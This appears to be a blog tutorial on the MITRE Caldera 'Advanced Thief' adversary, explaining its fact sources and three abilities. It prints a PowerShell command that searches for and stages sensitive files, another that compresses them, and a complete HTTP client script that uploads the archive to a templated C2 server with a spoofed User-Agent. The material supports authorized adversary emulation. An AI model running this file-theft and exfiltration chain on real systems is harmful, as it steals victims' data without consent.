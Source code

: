 ```yaml
---
title: Caldera Fact Sources by Theift
draft: false
authors:
  - admin
date: 2024-03-18
tags:
  - Caldera
  - Theif
  - Fact Sources 
  - Exfil
---
```


# Setup

Were going to walk throught the Advanced Theif adversary and understand whats going on. We'll start first with Abilities, setup Fact Sources last and disect commands in the middle. 
This adversary is simple and has only a few abilities to configure setup.  

## Theif

This adversary searches for files, compress them and exfiltrate to the attackers server.  

## Abilities

### 1. Advanced File Search and Stager
- **Tactic**:                    Collection
- **Technique ID**:        [T1119](https://attack.mitre.org/techniques/T1119/)
- **Technique Name**: Automation Collection
- **Payload**: [file_search.ps1](https://github.com/mitre/stockpile/blob/bac8177b6146bbe0f760e973428710d77e0081f2/payloads/file_search.ps1) [file_search.sh](https://github.com/mitre/stockpile/blob/bac8177b6146bbe0f760e973428710d77e0081f2/payloads/file_search.sh)

The payload is really well written. Clean and easy to ready. Something you could use to learn PowerShell with. 

This script essentially searches the box for files of interest or a specific file. Then places them in a staging location. 

**Command**

```shell
.\file_search.ps1 -Extensions '#{windows.included.extensions}' -ExcludedExtensions '#{windows.excluded.extensions}'
 -Directories '#{windows.included.directories}' -ExcludedDirectories '#{windows.excluded.directories}'
 -AccessedCutoff #{file.last.accessed} -ModifiedCutoff #{file.last.modified}
 -SearchStrings '#{file.sensitive.content}' -StagingDirectory '#{windows.staging.location}'
 -SafeMode $#{safe.mode.enabled} -PseudoExtension #{pseudo.data.identifier}
```


- In the command its passing several fact sources to the payload. 
- the use of `-Extensions` sets file extensions and directories to include and exclude with `-Excluded Extenstions`.
- Its specifies what extensions and directories to exclude with `-Directories`, ` -ExcludedDirectories`. This is going to speed up the search on the box by narrowing the scope.
- The access cutoff will be in days. Its looking back 30 days for files a user has accessed or modified with `-AccessedCutoff`
- With `-SearchStings` the fact passes a list of key word to look for.
- It sets the staging directory with `-StagingDirectory`. The location where all the files will be dumped before compressing
- `-SafeMode` is an interesting switch paired with `-PseudoExtension`. In the payload you see `[bool] $SafeMode = $False,` and a fact source. This a Boolean with the default being False. Safemode is the switch to use  `-PseudoExtension`or not and represents the basename of the file.  So if set to True and you passed the file special.txt. That would be the only file return once the payload is efiltrated. Example being Report.pdf this would be `Report`.  If `-SafeMode` is set to True it will use `-PseudoExtension` and make sure the file matches this.


### 2. Compress Staged Directory
- **Tactic**: Exfiltration
- **Technique ID**: [T1560.001](https://attack.mitre.org/techniques/T1560/001/)
- **Technique Name**: Archive Collected Data: Archive via Utility 

```shell
Compress-Archive -Path #{host.dir.staged} -DestinationPath #{host.dir.staged}.zip -Force;
sleep 1; ls #{host.dir.staged}.zip | foreach {$_.FullName} | select
```

- Compress-Archive takes the path of our the staging directory. That being the Recycle Bin. 
- Destination Path is where you're putting the files. Looks like its the same location. Its will create a .zip of the files.
- With `-Force` set it overrides any existing files with the same name
- In Caldera you can see the response of the command. So we see the `;` adding another command sleeping for 1 second. Followed by a ls -Piped-> into a foreach loop on the output of ls.  Unsure why this is needed.

### 3. Exfil Staged Directory
- **Tactic**: Exfiltration
- **Technique ID**: [T1041](https://attack.mitre.org/techniques/T1041/)
- **Technique Name**: Exfiltration Over C2 Channel


Finally into the final stage of the adversary where the data is exfiltrated.  


```python
# Set variables
$ErrorActionPreference = 'Stop';
$fieldName = "#{host.dir.compress}";
$filePath = "#{host.dir.compress}";
$url = "#{server}/file/upload";

Add-Type -AssemblyName 'System.Net.Http';

$client = New-Object System.Net.Http.HttpClient;
$content = New-Object System.Net.Http.MultipartFormDataContent;
$fileStream = [System.IO.File]::OpenRead($filePath);
$fileName = [System.IO.Path]::GetFileName($filePath);
$fileContent = New-Object System.Net.Http.StreamContent($fileStream);
$content.Add($fileContent, $fieldName, $fileName);
$client.DefaultRequestHeaders.Add("X-Request-Id", $env:COMPUTERNAME + '-#{paw}');
$client.DefaultRequestHeaders.Add("User-Agent","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");

$result = $client.PostAsync($url, $content).Result;
$result.EnsureSuccessStatusCode();
```

This is what a http request looks like in powershell. They build the HTTP client set the file and adds a user agent. Lastly we package it up and ship it back.


- Right in the beginning we set variables and use the Fact Source details. 
- Next we call to .Net System.Net.Http library and load it. 
- Then the assembly of the client is performed and building of the request. Like setting the User-Agent and attaching the payload.


https://learn.microsoft.com/en-us/dotnet/api/system.net.http?view=net-8.0

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.4


## Fact Sources

Now that we've covered the Abilities lets focus on Fact Sources. They are a little confusing at first. Fact Sources are just configuration settings for your Adversaries abilities. Abilities can tap into templating to set template variable from facts. 

Facts are a collection of key/values that are used to pass into an Operation. As the Operation executes it populates the templated text in a command or ability with the Fact Sources value. Like a the shapes box when we were younger. Its possible to run an Adversary in an Operation without the correct fact sources.

Continuing on, below are the Fact Sources needed with a description of what role they play in the Abilities.

| Fact Source                  | Description                                                                  |
| ---------------------------- | ---------------------------------------------------------------------------- |
| windows.included.extensions  | File extensions that should not be ignored                                   |
| windows.excluded.extensions  | File extensions to ignore                                                    |
| windows.included.directories | Base Directory to crawl                                                      |
| windows.excluded.directories | What directories are out of scope                                            |
| file.last.accessed           | Time Frame -30 Days                                                          |
| file.last.modified           | Time Frame -30 Days                                                          |
| file.sensitive.content       | Its a list of possible keywords used to identify sensitive content           |
| windows.staging.location     | Location to stage the compression. Its set to Recycle bin... kind of cleaver |
| pseudo.data.identifier       | specific file name                                                           |

### File Compression

| Fact Source     | Description                                      |
| --------------- | ------------------------------------------------ |
| host.dir.staged | Location the files will be stored and compressed |

### Exfil

| Fact Source       | Description                                  |
| ----------------- | -------------------------------------------- |
| host.dir.compress | where to save the compress the file          |
| paw               | Paw print, this is the identity of the agent |
| server            | Target Exfil Server                          |

### Prebuilt Fact Sources

The Fact Source entries form above are included in the **Exfil Operation** collection of facts. 
We are missing a few of the facts that are required. 

#### Missing Fact 
| Fact Source       | Description                                  |
| ----------------- | -------------------------------------------- |
| host.dir.staged   | Loation where the files where staged         | 
| host.dir.compress | where to save the compress the file          |
| paw               | Paw print, this is the identity of the agent |
| server            | Target Exfil Server                          |


